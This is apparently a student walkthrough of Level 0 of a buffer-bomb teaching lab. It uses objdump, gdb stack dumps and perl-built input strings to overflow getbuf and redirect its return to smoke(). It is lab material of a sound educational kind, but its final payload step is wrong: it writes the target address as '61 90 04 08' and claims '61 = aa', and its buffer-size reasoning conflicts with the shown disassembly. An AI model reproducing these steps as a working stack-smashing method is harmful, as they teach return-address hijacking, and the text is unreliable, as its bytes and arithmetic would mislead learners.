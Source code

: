 Level 0: Candle
===============

Goal = provide a string longer than getbuf can handle causing an overflow and pushing the rest of the string onto the stack where you can then control where the function getbuf returns after exection.

Main Steps:

1. locate the address of the function ```smoke()```

   To find the address of function ```smoke()``` type:
   ```unix> objdump -d bufbomb | less```
 
   My address for ```smoke()``` = 080490aa <smoke>:

   <b>write down the address for ```smoke()``` as you will be using it later</b>


2. calculate the length of the string size to cause an overflow
   ```
   unix> gdb bufbomb
   (gdb) break getbuf
   (gdb) run -u quinnliu
   (gdb) break *getbuf+17
   (gdb) disas
   (gdb) info registers
   ```

   Gives you:

   ```
   (gdb) disas
   Dump of assembler code for function getbuf:
      0x08048c04 <+0>:     push   %ebp
      0x08048c05 <+1>:     mov    %esp,%ebp
      0x08048c07 <+3>:     sub    $0x38,%esp
   => 0x08048c0a <+6>:     lea    -0x28(%ebp),%eax
      0x08048c0d <+9>:     mov    %eax,(%esp)
      0x08048c10 <+12>:    call   0x8048b4a <Gets>
      0x08048c15 <+17>:    mov    $0x1,%eax
      0x08048c1a <+22>:    leave
      0x08048c1b <+23>:    ret
   End of assembler dump.
   (gdb) info registers
   eax            0x45789ae        72845742
   ecx            0x45789ae        72845742
   edx            0x3c1048 3936328
   ebx            0x0      0
   esp            0x55683318       0x55683318
   ebp            0x55683350       0x55683350
   esi            0x55686018       1432903704
   edi            0xc60    3168
   eip            0x8048c0a        0x8048c0a <getbuf+6>
   eflags         0x216    [ PF AF IF ]
   cs             0x23     35
   ss             0x2b     43
   ds             0x2b     43
   es             0x2b     43
   fs             0x0      0
   gs             0x63     99
   (gdb)
   ```

   Remember that the goal is to push a string that goes one address beyond the location of %ebp. 

   <b>write down %ebp address as you will be using it later. In my case:</b>

   %ebp = 0x55683350 

   getBuf() will take 32 characters. To modify the return address, we will need the buffer to extend to the address space right after %ebp on the stack or (%ebp)+4. So 32 bytes will be allocated to the buf variable for getbuf(). We need to look at the stack to determine the rest of the buffer size.

   Now quit out
   ```
   (gdb) q
   A debugging session is active.

           Inferior 1 [process 29088] will be killed.

   Quit anyway? (y or n) y
   ```

   Now create a test input file called "hex" and type a few commands
   ```
   unix> perl -e 'print "A"x32 '> hex
   unix> gdb bufbomb
   (gdb) break getbuf
   (gdb) break *getbuf+17
   (gdb) run -u quinnliu < hex
   (gdb) x/20x $esp
   (gdb) disas
   ```

   Gives you:

   ```
   (gdb) x/20x $esp
   0x55683318 <_reserved+1037080>: 0x55683330      0x00263b36      0x003c132c      0x55683328
   0x55683328 <_reserved+1037096>: 0x41723de3      0x00000000      0x55683350      0x08048b48
   0x55683338 <_reserved+1037112>: 0x00007399      0x5568338c      0x00000001      0x00000000
   0x55683348 <_reserved+1037128>: 0x55683370      0x003c0ff4      0x55683380      0x08048c93
   0x55683358 <_reserved+1037144>: 0x55683380      0x0027e610      0x55686018      0x00000c60
   (gdb) disas
   Dump of assembler code for function getbuf:
      0x08048c04 <+0>:     push   %ebp
      0x08048c05 <+1>:     mov    %esp,%ebp
      0x08048c07 <+3>:     sub    $0x38,%esp
   => 0x08048c0a <+6>:     lea    -0x28(%ebp),%eax
      0x08048c0d <+9>:     mov    %eax,(%esp)
      0x08048c10 <+12>:    call   0x8048b4a <Gets>
      0x08048c15 <+17>:    mov    $0x1,%eax
      0x08048c1a <+22>:    leave
      0x08048c1b <+23>:    ret
   End of assembler dump.
   ```

   Next type these commands:
   ```
   (gdb) continue
   (gdb) disas # notice that we are now at <+17>
   (gdb) x/20x $esp
   ```

   Gives you:
   ```
   (gdb) continue
   Continuing.

   Breakpoint 2, 0x08048c15 in getbuf ()
   (gdb) disas
   Dump of assembler code for function getbuf:
      0x08048c04 <+0>:     push   %ebp
      0x08048c05 <+1>:     mov    %esp,%ebp
      0x08048c07 <+3>:     sub    $0x38,%esp
      0x08048c0a <+6>:     lea    -0x28(%ebp),%eax
      0x08048c0d <+9>:     mov    %eax,(%esp)
      0x08048c10 <+12>:    call   0x8048b4a <Gets>
   => 0x08048c15 <+17>:    mov    $0x1,%eax
      0x08048c1a <+22>:    leave
      0x08048c1b <+23>:    ret
   End of assembler dump.
   (gdb) x/20x $esp
   0x55683318 <_reserved+1037080>: 0x55683328      0x00263b36      0x003c132c      0x55683328
   0x55683328 <_reserved+1037096>: 0x41414141      0x41414141      0x41414141      0x41414141
   0x55683338 <_reserved+1037112>: 0x41414141      0x41414141      0x41414141      0x41414141
   0x55683348 <_reserved+1037128>: 0x55683300      0x003c0ff4      0x55683380      0x08048c93
   0x55683358 <_reserved+1037144>: 0x55683380      0x0027e610      0x55686018      0x00000c60
   ```

   We can see that the "buf" variable stores its 32 byte string on the stack. Starting at address 0x55683328 and ending right before 0x55683348.

   startingAddressOfBufVariable = 0x55683328
   %ebp = 0x55683350 # I told you to write this down earlier

   buffer size = addressAt%ebp+4 - startingAddressOfBufVariable
               = 0x55683350   +4 - 0x55683328
               # make sure to use a hex calculator like this one: http://www.squarebox.com/legacy/hcalc.html
               = 2C # in hexadecimal = 44 bytes # in decimal

   We know that 32 bytes are used to store the "buf" variable as seen when we print out the registers after giving the "hex" file as input

   44 - 32 = 12 bytes left to fill the stack right before the return address(<= WHOLE POINT IS TO MANIPULATE THIS)

   Now quit out of gdb with ```q``` command and type:


3. create the buffer overflow string

   ```
   bash-4.1$ perl -e 'print "A"x32 ,"B"x4, "C"x4, "D"x4 '>hex2
   bash-4.1$ ls
   bufbomb  exploit.txt  hex  hex2  hex2raw  makecookie
   bash-4.1$ less hex2
   AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDD

   Now use hex2 as your new input in gdb:
   ```
   unix> gdb bufbomb
   (gdb) break getbuf
   (gdb) break *getbuf+17
   (gdb) run -u quinnliu < hex2
   (gdb) x/20x $esp
   (gdb) continue
   (gdb) x/20x $esp 
   ```

   On the second call of 
   ```
   (gdb) x/20x $esp
   ``` 
   
   you will see:
   ```
   (gdb) x/20x $esp
   0x55683318 <_reserved+1037080>: 0x55683328      0x00bafb36      0x00d0d32c       0x55683328
   0x55683328 <_reserved+1037096>: 0x41414141      0x41414141      0x41414141       0x41414141
   0x55683338 <_reserved+1037112>: 0x41414141      0x41414141      0x41414141       0x41414141
   0x55683348 <_reserved+1037128>: 0x42424242      0x43434343      0x44444444       0x08048c00
   0x55683358 <_reserved+1037144>: 0x55683380      0x00bca610      0x55686018       0x00000c60
   (gdb)
   ```

   Understand that our input file is:
   ```
   AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDD
   ```
   where A = 41, B = 42, C = 43, & D = 44

   So DDDD = 0x44444444

   After DDDD is 0x08048c00 <= THIS IS THE RETURN ADDRESS WE BE CHANGE the address of ```smoke()```!!!!!

4. force the function getbuf to return to fucntion ```smoke()``` instead of returning the value 1.

   Find where you wrote down the address of ```smoke()``` earlier. Mine is = 080490aa

   Because my machine is little endian the least significant byte is first.

   So 
   ```08 04 90 aa``` => ```aa 90 04 08```

   Now exit out of gdb:
   ```
   bash-4.1$ perl -e 'print "61 "x32, "BB "x4, "CC "x4, "DD "x4, "61 90 04 08" '>hex3
   ```
   WHERE 61 = aa

   Now using the hex2raw executable file you can convert the hex3 text file into a raw file to be submitted as your answer to the bufferbomb.

   Type:
   ```./hex2raw < hex3 > raw```

5. Almost there!!!!!!!!!!

   Now actually give your "raw" file as input to the Buffer Bomb:
   ```./bufbomb -u quinnliu < raw```

   And you should get the following output:
   ```
   Userid: quinnliu 
   Cookie: 0x2d8cc70c
   Type string:Smoke!: You called smoke()
   VALID
   NICE JOB!
   ```
